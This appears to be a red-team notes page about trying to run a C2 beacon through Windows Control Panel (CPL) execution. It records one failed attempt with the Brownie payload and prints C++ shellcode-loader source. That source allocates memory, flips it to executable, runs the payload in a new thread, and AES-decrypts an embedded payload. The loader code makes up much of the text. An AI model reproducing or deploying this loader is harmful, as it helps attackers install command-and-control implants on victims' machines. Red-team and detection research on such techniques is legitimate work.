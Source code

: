 
The following details various attempts. A stock meterp or beacon dll were attempted first with no sign of execution. Theory is the CPL execution process was ending before c&c could be established.

## Attempt: Brownie

The payload: [slaeryan/AQUARMOURY/Brownie](https://github.com/slaeryan/AQUARMOURY/tree/master/Brownie)

### Assumption

As I've used this payload for side-loading successfully, this should work 1-2-3.

### Result

Fail. Not even a glimpse of a beacon.

### Lessons

The process context the DLL is executed under ("CPL context") ends to quickly for a beacon to establish and function.

### Source 

```cpp
// Inline-Execute shellcode using CreateThread()
// ------------------------------------------------------------------------
BOOL execute_shellcode(LPSTR payload, SIZE_T payloadLen) {
	// Init some important variables
	void* exec_mem;
	BOOL ret;
	HANDLE threadHandle;
    DWORD oldProtect = 0;
	
	// Allocate a RW memory buffer for payload
	exec_mem = VirtualAlloc(0, payloadLen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Write payload to new buffer
	RtlMoveMemory(exec_mem, payload, payloadLen);
	
	// Make new buffer as RX so that payload can be executed
	ret = VirtualProtect(exec_mem, payloadLen, PAGE_EXECUTE_READ, &oldProtect);

	// Now, run the payload
	if (ret != 0) {
		threadHandle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(threadHandle, -1);
	}

	Sleep(9000);

	return TRUE;
}

// Call after DLL is loaded
// ------------------------------------------------------------------------

void go(HMODULE hMod) {
	// Retrieve payload from resource section
	[...]

	// Decrypt the payload
	if (!aes_decrypt(ciphertext, iv, AESKEY)) {
		return;
	}
```